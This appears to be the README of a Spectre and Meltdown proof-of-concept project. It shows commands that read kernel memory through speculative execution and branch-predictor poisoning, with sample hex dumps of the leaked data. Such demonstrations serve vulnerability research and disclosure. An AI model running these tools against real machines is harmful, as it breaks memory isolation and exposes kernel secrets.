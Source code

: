 Spectre and Meltdown Proof-of-Concept
=====================================

Read kernel addresses by stalling the pipeline and speculatively hitting a cacheline:

```
$ make
...
$ grep ' sys_call_table' /proc/kallsyms
ffffffff8f800180 R sys_call_table
$ ./poc ffffffff8f800180
0xffffffff8f800180 | 10 40 23 8f ff ff ff ff d0 40 23 8f ff ff ff ff
0xffffffff8f800190 | c0 14 23 8f ff ff ff ff 60 f6 22 8f ff ff ff ff
0xffffffff8f8001a0 | 40 91 23 8f ff ff ff ff 70 91 23 8f ff ff ff ff
0xffffffff8f8001b0 | 50 91 23 8f ff ff ff ff 10 af 24 8f ff ff ff ff
...
```

![Motivational GIF](http://tcpst.net/unea.gif)

Read kernel addresses by poisoning the branch predictor and speculatively hitting a cacheline:
```
$ ./poc_poison ffffffff8f800180
cutoff: 192
0xffffffff8f800180 | 10 40 23 8f ff ff ff ff d0 40 23 8f ff ff ff ff
...
```

Visualize memory read timings:
```
$ ./poc_vis ffffffff8f800180
```

